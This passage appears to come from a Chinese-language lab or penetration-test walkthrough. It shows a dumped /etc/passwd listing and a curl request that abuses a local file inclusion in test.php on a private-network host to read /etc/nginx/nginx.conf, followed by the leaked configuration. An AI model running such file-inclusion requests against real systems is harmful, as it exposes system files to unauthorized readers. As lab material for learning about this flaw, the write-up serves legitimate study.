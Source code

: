 ```shell
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
welcome:x:1001:1001::/home/welcome:/bin/sh
mysql:x:106:113:MySQL Server,,,:/nonexistent:/bin/false
```



看一下配置文件
```shell
curl "http://192.168.124.22/test.php?do=/etc/nginx/nginx.conf"
<h1>test</h1>
tryuser www-data;
worker_processes auto;
pid /run/nginx.pid;
include /etc/nginx/modules-enabled/*.conf;

events {
        worker_connections 768;
        # multi_accept on;
}

http {

        ##
        # Basic Settings
        ##

        sendfile on;
        tcp_nopush on;
        tcp_nodelay on;
        keepalive_timeout 65;
        types_hash_max_size 2048;
        # server_tokens off;

        # server_names_hash_bucket_size 64;
        # server_name_in_redirect off;

        include /etc/nginx/mime.types;
        default_type application/octet-stream;

        ##
        # SSL Settings
        ##

        ssl_protocols TLSv1 TLSv1.1 TLSv1.2; # Dropping SSLv3, ref: POODLE
        ssl_prefer_server_ciphers on;

        ##
        # Logging Settings
        ##

        access_log /var/log/nginx/access.log;
        error_log /var/log/nginx/error.log;
        client_max_body_size 500M;
        client_body_buffer_size 128k;
```